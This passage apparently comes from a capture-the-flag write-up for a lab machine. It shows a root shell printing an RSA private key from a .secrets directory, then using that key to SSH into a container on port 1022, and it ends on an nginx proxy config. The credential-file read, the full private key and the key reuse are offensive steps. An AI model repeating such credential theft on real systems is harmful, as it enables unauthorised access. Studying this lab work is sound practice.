 ```bash
total 20
drwxr-xr-x  5 root root 4096 Sep 23  2017 .
drwxr-xr-x 36 root root 4096 Nov 13  2017 ..
drwxrwxr-x  2 root root 4096 Sep 24  2017 .secrets
drwxr-xr-x  6 root root 4096 Sep 23  2017 containers
drwxr-xr-x  2 root root 4096 Sep 24  2017 network
[root@calvin common]# cd .secrets
cd .secrets
[root@calvin .secrets]# ls
ls
bastion_key
bastion_key.pub
[root@calvin .secrets]# cat bastion_key
cat bastion_key
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA8M2fLV0chunp+lPHeK/6C/36cdgMPldtrvHSYzZ0j/Y5cvkR
SZPGfmijBUyGCfqK48jMYnqjLcmHVTlA7wmpzJwoZj2yFqsOlM3Vfp5wa1kxP+JH
g0kZ/Io7NdLTz4gQww6akH9tV4oslHw9EZAJd4CZOocO8B31hIpUdSln5WzQJWrv
pXzPWDhS22KxZqSp2Yr6pA7bhD35yFQ7q0tgogwvqEvn5z9pxnCDHnPeYoj6SeDI
T723ZW/lAsVehaDbXoU/XImbpA9MSF2pMAMBpT5RUG80KqhIxIeZbb52iRukMz3y
5welIrPJLtDTQ4ra3gZtgWvbCfDaV4eOiIIYYQIDAQABAoIBAQDOIAUojLKVnfeG
K17tJR3SVBakir54QtiFz0Q7XurKLIeiricpJ1Da9fDN4WI/enKXZ1Pk3Ht//ylU
P00hENGDbwx58EfYdZZmtAcTesZabZ/lwmlarSGMdjsW6KAc3qkSfxa5qApNy947
QFn6BaTE4ZTIb8HOsqZuTQbcv5PK4v/x/Pe1JTucb6fYF9iT3A/pnXnLrN9AIFBK
/GB02ay3XDkTPh4HfgROHbkwwverzC78RzjMe8cG831TwWa+924u+Pug53GUOwet
A+nCVJSxHvgHuNA2b2oMfsuyS0i7NfPKumjO5hhfLex+SQKOzRXzRXX48LP8hDB0
G75JF/W9AoGBAPvGa7H0Wen3Yg8n1yehy6W8Iqek0KHR17EE4Tk4sjuDL0jiEkWl
WlzQp5Cg6YBtQoICugPSPjjRpu3GK6hI/sG9SGzGJVkgS4QIGUN1g3cP0AIFK08c
41xJOikN+oNInsb2RJ3zSHCsQgERHgMdfGZVQNYcKQz0lO+8U0lEEe1zAoGBAPTY
EWZlh+OMxGlLo4Um89cuUUutPbEaDuvcd5R85H9Ihag6DS5N3mhEjZE/XS27y7wS
3Q4ilYh8Twk6m4REMHeYwz4n0QZ8NH9n6TVxReDsgrBj2nMPVOQaji2xn4L7WYaJ
KImQ+AR9ykV2IlZ42LoyaIntX7IsRC2O/LbkJm3bAoGAFvFZ1vmBSAS29tKWlJH1
0MB4F/a43EYW9ZaQP3qfIzUtFeMj7xzGQzbwTgmbvYw3R0mgUcDS0rKoF3q7d7ZP
ILBy7RaRSLHcr8ddJfyLYkoallSKQcdMIJi7qAoSDeyMK209i3cj3sCTsy0wIvCI
6XpTUi92vit7du0eWcrOJ2kCgYAjrLvUTKThHeicYv3/b66FwuTrfuGHRYG5EhWG
WDA+74Ux/ste3M+0J5DtAeuEt2E3FRSKc7WP/nTRpm10dy8MrgB8tPZ62GwZyD0t
oUSKQkvEgbgZnblDxy7CL6hLQG5J8QAsEyhgFyf6uPzF1rPVZXTf6+tOna6NaNEf
oNyMkwKBgQCCCVKHRFC7na/8qMwuHEb6uRfsQV81pna5mLi55PV6RHxnoZ2wOdTA
jFhkdTVmzkkP62Yxd+DZ8RN+jOEs+cigpPjlhjeFJ+iN7mCZoA7UW/NeAR1GbjOe
BJBoz1pQBtLPQSGPaw+x7rHwgRMAj/LMLTI46fMFAWXB2AzaHHDNPg==
-----END RSA PRIVATE KEY-----
```

We find the private key for the user!

We give this appropriate perms with `chmod 600 id_rsa` and then we ssh into the box as erza. Another user in a docker container(you can see where this is going ahah).

`ssh -i id_rsa root@10.10.10.65 -p 1022` -  we are using ssh on port 1022 instead of 22 as it didnt work on 22.

We enumerate files and find a config file in `/common/contatiners/waf-live` it has the following contents:
```php
## Blog test vhost ##
    server {
        listen       443 ssl;
        server_name  beehive.ariekei.htb;

        location / {
                proxy_pass http://172.24.0.2/;
                proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
                proxy_redirect off;
                proxy_buffering off;
```